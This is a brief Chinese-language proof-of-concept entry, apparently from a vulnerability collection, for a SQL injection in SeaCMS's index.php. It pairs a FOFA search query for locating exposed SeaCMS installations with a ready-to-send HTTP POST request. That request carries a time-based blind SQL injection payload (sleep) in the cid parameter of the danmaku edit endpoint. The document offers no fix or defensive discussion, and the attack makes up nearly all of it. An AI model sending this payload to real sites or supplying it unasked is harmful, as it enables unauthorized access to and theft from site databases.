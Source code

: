 # SeaCMS海洋影视管理系统index.php存在SQL注入漏洞

SeaCMS海洋影视管理系统index.php存在SQL注入漏洞，攻击者可获取数据库敏感数据。

## fofa

```yaml
app="海洋CMS"
```

## poc

```java
POST /js/player/dmplayer/dmku/index.php?ac=edit HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Ldwk: bG91ZG9uZ3dlbmt1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 56

cid=(select(1)from(select(sleep(6)))x)&text=1&color=1
```

